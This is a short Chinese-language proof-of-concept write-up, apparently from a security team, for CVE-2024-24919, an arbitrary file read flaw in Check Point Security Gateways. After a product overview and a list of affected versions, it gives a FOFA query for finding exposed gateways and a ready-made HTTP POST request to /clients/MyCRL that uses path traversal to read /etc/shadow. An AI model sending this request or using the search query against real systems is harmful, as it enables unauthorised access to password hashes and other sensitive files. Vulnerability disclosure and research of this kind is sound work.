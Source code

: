 # CVE-2024-24919

> **Created by：** A-little-dragon
> 
> **Team：** TracelessSec
> 
> **漏洞描述：** Check Point 安全网关任意文件读取漏洞 



## 0x01 产品介绍

Check Point Security Gateways 是 Check Point Software 提供的一系列网络安全解决方案。这些解决方案包括下一代防火墙（NGFW）、数据中心安全网关和 AI 驱动的量子网关，旨在为企业提供针对复杂网络威胁的先进防护。它们通过集成的威胁防护、统一的安全管理和策略控制，确保网络、云、移动和端点的安全。

## 0x02 漏洞描述

Check Point Security Gateways 任意文件读取漏洞(CVE-2024-24919)存在在野利用，远程攻击者可以通过构造恶意请求读取服务器上的任意文件，造成敏感信息的泄漏。

## 0x03 影响范围

```
Check Point Security Gateways R77.20 (EOL)
Check Point Security Gateways R77.30 (EOL)
Check Point Security Gateways R80.10 (EOL)
Check Point Security Gateways R80.20 (EOL)
Check Point Security Gateways R80.20.x
Check Point Security Gateways R80.20SP (EOL)
Check Point Security Gateways R80.30 (EOL)
Check Point Security Gateways R80.30SP (EOL)
Check Point Security Gateways R80.40 (EOL)
Check Point Security Gateways R81
Check Point Security Gateways R81.10
Check Point Security Gateways R81.10.x
Check Point Security Gateways R81.20
其他受影响组件
无
```

## 0x04 FOFA语法

```bash
app="Check_Point-SSL-Network-Extender"
```

## 0x05 漏洞复现

```txt
POST /clients/MyCRL HTTP/1.1
Host: ip
Content-Length: 39

aCSHELL/../../../../../../../etc/shadow
```

![Untitled](image/Untitled.png)
